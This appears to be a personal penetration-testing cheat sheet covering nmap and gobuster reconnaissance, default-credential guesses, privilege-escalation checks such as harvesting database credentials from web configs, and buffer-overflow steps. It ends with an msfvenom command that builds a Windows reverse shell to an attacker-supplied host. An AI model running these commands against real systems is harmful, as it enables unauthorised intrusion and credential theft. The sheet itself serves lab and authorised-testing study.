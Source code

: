 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- `nmap -sC -sV -oA <name> <ip>`
- `nmap -p- -sV <ip> > all-tcp`
- `nmap -sU <ip> > comm-udp`
- `nmap --script vuln <ip>`

# http/https 80/443
- `gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html`
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# snmp udp/161
- `snmpwalk -c public -v1 <target>`
- `snmp-check -w -t 30 <target>`

# priv esc
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => `find / -perm -4000 2>/dev/null`
- find all files in /home => `find /home -type f`

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) `impacket-smbserver share <shared path>`
  - (windows) `net use z: \\<kali's ip>\share`
  - (windows) `copy <file\ z:`

# gdb (with peda)
- `r < <(python exp.py)`
  - (or 'set args' if take parameters)
- `r < input.txt`
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
- `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'`
- `p system` => address of function system
- `info functions` => list all functions
- `vmmap` => find which part is executable.

# binary exploit steps (with immunity dbg)
1. find EIP overflow offset
    1. `msf-pattern_create -l 300`
    1. `msf-pattern_offset -q <value>`
1. test bad chars
1. `!mona modules`
    1. see modules and their security flags. we also need to make sure the module address doesn't contain bad chars.
1. click the "e" button to see the list of executable modules. Double click on one to view its assembly code.
1. find "jmp esp" commands
    1. right click -> search for -> command, then enter "jmp esp"(or others).
    1. right click -> search for -> sequence of commands, then enter "push esp", new line, "ret".
    1. if no DEP is enabled, we can search beyond the .text section where the "search for" commands focus. We can search other sections.
        1. `msf-nasm_shell` and enter "jmp esp", it says "FFE4"
        2. `!mona find -s "\xff\xe4" -m xxx.dll
        3. you can click the button "->|" (except the | are dots)
1. place shellcode
    1. `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
